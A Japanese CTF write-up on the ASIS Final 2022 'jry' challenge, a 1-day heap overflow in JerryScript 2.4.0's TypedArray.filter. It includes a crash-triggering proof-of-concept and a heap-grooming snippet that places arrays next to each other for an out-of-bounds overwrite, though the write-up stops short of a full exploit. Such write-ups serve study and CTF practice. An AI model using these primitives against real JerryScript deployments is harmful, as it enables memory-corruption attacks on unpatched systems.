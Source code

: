 ```yaml
---
layout: page
title: "asis final 2022 jry"
date: 2023-01-05 00:00:00 -0000
---
```


年末に触った[jerryscript](https://github.com/jerryscript-project/jerryscript)の1day? pwnです。最新のrelease 2.4.0が無変更で与えられています。

issueを調べていると、いくつかまずそうなバグが出てきます。

使えそうなのも出てきました。[これとか。](https://github.com/jerryscript-project/jerryscript/issues/4793)

filter関数が、元のTypedArrayより小さい型サイズのコンストラクタに書き換えた時、範囲外を書き換えるようです。

```javascript
function test(constructor, constructor2, from = [1, 2, 3, 4, 5]) {
  var modifiedConstructor = new constructor(from);
  modifiedConstructor.constructor = constructor2;
  modifiedConstructor.filter(x => x % 2 == 0);
}
test(Float64Array, Float32Array);
```

```
ICE: Assertion 'object_p->type_flags_refs >= ECMA_OBJECT_REF_ONE' failed at /home/sy/Documents/jerry/jerryscript/jerry-core/ecma/base/ecma-gc.c(ecma_deref_object):158.
Error: ERR_FAILED_INTERNAL_ASSERTION
Aborted (core dumped)
```

修正内容は[ここ](https://github.com/galpeter/jerryscript/commit/6a21f4069a0e792dc38154b2b3aaf57a83924a61)ですが、なんと最新版リリースである2.4.0で取り込まれていないようです。

ヒープオーバフローは再確保と組み合わせて、既存のチャンクのヘッダを荒して上手くoob配列を手に入れたいところです。

しかしながら`delete` やら`gc` やらをしばらくいろいろ試していましたが、ヒープで再確保ができる仕組みがよくわからなくてタイムオーバーとなってしまいました。

そのあともしばらく触っていたところ、以下のように変数を書き換えて参照を消すとうまくいくことがわかりました。もう少し触っておけばよかった。

```
var array_0 = new Uint8Array(0x300);
var array_1 = new Uint32Array(0x100);
var array_2 = new Uint32Array(0x100);

array_1[0]= 0xdeadbeef;
array_0 = 0
gc();

var x = new Uint8Array(0x300);
x[0] = 0xaa;
while(1) {}
```

0xaaが隣接しているので、これでoobすれば、array_1が上書きされます。
